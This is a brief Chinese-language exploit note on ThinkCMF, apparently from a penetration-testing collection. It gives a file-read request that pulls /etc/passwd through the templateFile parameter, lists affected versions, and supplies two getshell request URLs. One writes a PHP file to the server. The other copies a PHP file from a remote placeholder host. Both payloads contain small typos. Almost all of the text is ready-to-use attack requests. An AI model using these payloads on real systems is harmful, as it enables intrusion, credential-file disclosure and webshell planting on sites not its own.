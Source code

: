 # ThinkCMF——RCE

source: `{{ page.path }}`

---

## 文件读取

```
http://127.0.0.1/?a=display&templateFile=/etc/passwd
```

---



## 远程代码执行

```
影响版本：
	ThinkCMF X1.6.0
	ThinkCMF X2.1.0
	ThinkCMF X2.2.0
	ThinkCMF X2.2.1
	ThinkCMF X2.2.2
	ThinkCMF X2.2.3
```

```
远程代码执行 Getshell：（执行成功页面空白，直接访问看是否生成对应php即可）

写入php文件：file_put_contentc('test.php','<?php phpinfo();?>')
http://127.0.0.1/?a=fetch&templateFile=public/index&prefix=''&content=<php>file_put_contentc('test.php','<?php phpinfo();?>')</php>

也可复制远程php文件：copy('https:/xxxx/test.php','test.php')
http://127.0.0.1/?a=fetch&templateFile=public/index&prefix=''&content=<php>copy('https:/xxxx/test.php','test.php')</php>
```

